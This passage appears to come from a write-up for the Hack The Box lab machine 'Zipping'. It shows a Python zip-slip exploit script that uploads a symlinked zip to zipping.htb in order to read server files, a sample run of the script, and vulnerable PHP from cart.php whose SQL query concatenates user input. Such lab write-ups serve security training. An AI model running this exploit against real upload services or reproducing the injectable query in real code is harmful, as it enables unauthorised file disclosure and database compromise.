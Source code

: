 ```python
print('Making zip...')
os.system(f'zip -y zipslip.zip zipslip.pdf')
print('Removing symlink...')
os.system('rm zipslip.pdf')
print('Crafting payload for uploader...')

data = {
    "submit": ""
}
url='http://zipping.htb/upload.php'
files={'zipFile':('zipslip.zip', open('zipslip.zip','rb'),'application/zip')}
print('Sending payload!')
r = requests.post(url, files=files, data=data, verify=False)
try:
    uploadedurl=r.text.split('following path:</p><a href="')[1].split('">')[0]
    url='http://zipping.htb/'+uploadedurl
except:
    print('No upload url found!')

if 'uploads' in url:
    r=requests.get(url, verify=False)
    print('Writing to \'out.txt\'...')
    with open('out.txt','w') as f:
        f.write(r.text)
print('Cleaning up...')
os.system('rm zipslip.zip')
```

Now I can demo the exploit as so:

```
$ python3 zislip-exploiter.py
Made by sealldeveloper
Making symlink...
Making zip...
  adding: zipslip.pdf (stored 0%)
Removing symlink...
Crafting payload for uploader...
Sending payload!
Writing to 'out.txt'...
Cleaning up...
```

and the file data is written to `out.txt` in the same folder!

After a few attempts I found the following file path for the website: `/var/www/html/` and one specific file of interest.

Reading `/var/www/html/shop/cart.php` has a vulnerability.

```php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
```
